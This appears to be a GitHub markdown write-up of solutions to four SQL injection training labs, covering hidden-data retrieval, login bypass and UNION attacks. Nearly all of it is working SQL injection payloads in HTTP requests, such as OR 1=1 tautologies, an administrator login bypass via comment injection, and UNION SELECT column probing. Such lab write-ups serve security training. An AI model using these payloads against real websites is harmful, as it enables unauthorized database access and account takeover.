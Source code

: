 # Retrieving hidden data

## Lab - 1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

```
GET /filter?category=Gifts'+OR+1%3d1-- HTTP/1.1
```

---

# Subverting application logic

## Lab - 2 : SQL injection vulnerability allowing login bypass

```
POST /login HTTP/1.1
...
csrf=1RBHY1YLKJyGP5nBXPAy4Xx7X2vznXr4&username=administrator%27--&password=safsf
```

---

# UNION ATTACK

## Lab - 3: SQL injection UNION attack, determining the number of columns returned by the query

`GET /filter?category=Gifts'+ORDER+BY+4-- HTTP/1.1` will get an error and the numbers of returning columns must be 3.

```
GET /filter?category=Gifts'+UNION+SELECT+NULL,+NULL,+NULL+-- HTTP/1.1
```

---

## Lab - 4: SQL injection UNION attack, finding a column containing text

`GET /filter?category=Tech+gifts'+ORDER+BY+4-- HTTP/1.1` will get an error.
`GET /filter?category=Tech+gifts'+UNION+SELECT+'a',NULL,NULL--` will get an erorr.

```
`GET /filter?category=Tech+gifts'+UNION+SELECT+NULL,'a',NULL--
```

---
